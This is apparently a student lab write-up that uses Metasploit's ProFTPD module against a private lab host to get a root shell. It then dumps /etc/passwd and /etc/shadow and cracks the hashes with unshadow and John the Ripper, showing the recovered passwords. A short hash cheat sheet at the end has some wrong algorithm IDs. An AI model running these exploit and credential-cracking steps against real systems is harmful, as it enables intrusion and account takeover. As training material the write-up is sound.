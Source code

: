 # Steps for lab 3

## Step 1 - Get into target machine

### Step 1.1 - Use msfconsole

```bash
msfconsole
```

### Step 1.2 - Use ProFTPD

```bash
search ProFTPD
use 5
```

### Step 1.3 - Set RHOST and payload

```bash
set RHOSTS 10.5.0.254
run
set payload 5
set LHOST 10.5.0.1
run
```

### Step 1.4 - Check username

```bash
whoami
```

```bash
root
```

### Step 1.5 - Copy the /etc/passwd and /etc/shadow

```bash
cat /etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```

```bash
cat /etc/shadow
```

```bash
root:$y$j9T$GWXWlbPiR.YBznBxQpS301$hVa4gidXVcFH/0m.rL1aW1VEqkVqic/E.lRj.wJBOeD:19268:0:99999:7:::
daemon:*:19247:0:99999:7:::
bin:*:19247:0:99999:7:::
sys:*:19247:0:99999:7:::
sync:*:19247:0:99999:7:::
games:*:19247:0:99999:7:::
man:*:19247:0:99999:7:::
lp:*:19247:0:99999:7:::
mail:*:19247:0:99999:7:::
news:*:19247:0:99999:7:::
uucp:*:19247:0:99999:7:::
proxy:*:19247:0:99999:7:::
www-data:*:19247:0:99999:7:::
backup:*:19247:0:99999:7:::
list:*:19247:0:99999:7:::
irc:*:19247:0:99999:7:::
gnats:*:19247:0:99999:7:::
nobody:*:19247:0:99999:7:::
_apt:*:19247:0:99999:7:::
systemd-network:*:19268:0:99999:7:::
systemd-resolve:*:19268:0:99999:7:::
messagebus:*:19268:0:99999:7:::
systemd-timesync:*:19268:0:99999:7:::
sshd:*:19268:0:99999:7:::
admin:$y$j9T$Yaz43eoUN1NuXP7TFkdfK.$Xq1oDzJ8GsDNaMc/qSk1DacGMqIsTRdP3MjhQQQdZ35:19268:0:99999:7:::
```

## Step 2 - Cracking password

### Step 2.1 - Paste the /etc/passwd and /etc/shadow

```bash
touch passwd.txt
nano passwd.txt
touch shadow.txt
nano shadow.txt
```

### Step 2.2 Use unshadow

```bash
unshadow passwd.txt shadow.txt > crack.db
cat crack.db
```

```bash
root:$y$j9T$GWXWlbPiR.YBznBxQpS301$hVa4gidXVcFH/0m.rL1aW1VEqkVqic/E.lRj.wJBOeD:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:*:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:*:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:*:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:*:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:*:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:*:105:65534::/run/sshd:/usr/sbin/nologin
admin:$y$j9T$Yaz43eoUN1NuXP7TFkdfK.$Xq1oDzJ8GsDNaMc/qSk1DacGMqIsTRdP3MjhQQQdZ35:1000:1000::/home/admin:/bin/bash
```

### Step 2.3 Use john with --format=crypt as the method was $y$

- [Hash-formats cheatsheet](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)

```bash
john crack.db --format=crypt
```

```bash
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
toor             (root)
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
secret           (admin)
2g 0:00:00:18 DONE 2/3 (2023-04-03 02:55) 0.1079g/s 60.42p/s 60.47c/s 60.47C/s 123456..pepper
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Step 2.4 Show the cracked password

```bash
john -show crack.db
```

```bash
root:toor:0:0:root:/root:/bin/bash
admin:secret:1000:1000::/home/admin:/bin/bash
```

- The password for root user: toor
- The password for admin user: secret

## Password hash cheatsheet

1. Format

    ```bash
    $id$salt$hashed
    ```

2. ID table

    ```bash
    $1 - MD5
    $2a - Blowfish
    $4 - SHA256
    $5 - SHA512
    $7 - Yescrypt
    $y - Yescrypt
    ```

## Terminal output

- [tmux session 1](tmux1.txt)

- [tmux session 2](tmux2.txt)
